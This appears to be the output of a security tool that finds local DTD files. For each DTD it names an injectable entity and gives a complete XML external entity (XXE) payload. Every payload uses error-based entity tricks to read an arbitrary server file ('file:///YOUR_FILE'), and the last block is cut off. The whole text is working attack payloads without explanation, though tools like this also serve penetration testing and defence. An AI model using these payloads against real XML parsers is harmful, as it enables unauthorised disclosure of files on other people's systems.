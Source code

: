 **Injectable entity:** `ImgAlign`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/jspxml.dtd">

    <!ENTITY % ImgAlign '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/jspxml.dtd`

**Injectable entity:** `Body`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/jspxml.dtd">

    <!ENTITY % Body '(aa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/nmap/nmap.dtd`

**Injectable entity:** `attr_numeric`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/nmap/nmap.dtd">

    <!ENTITY % attr_numeric '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

```
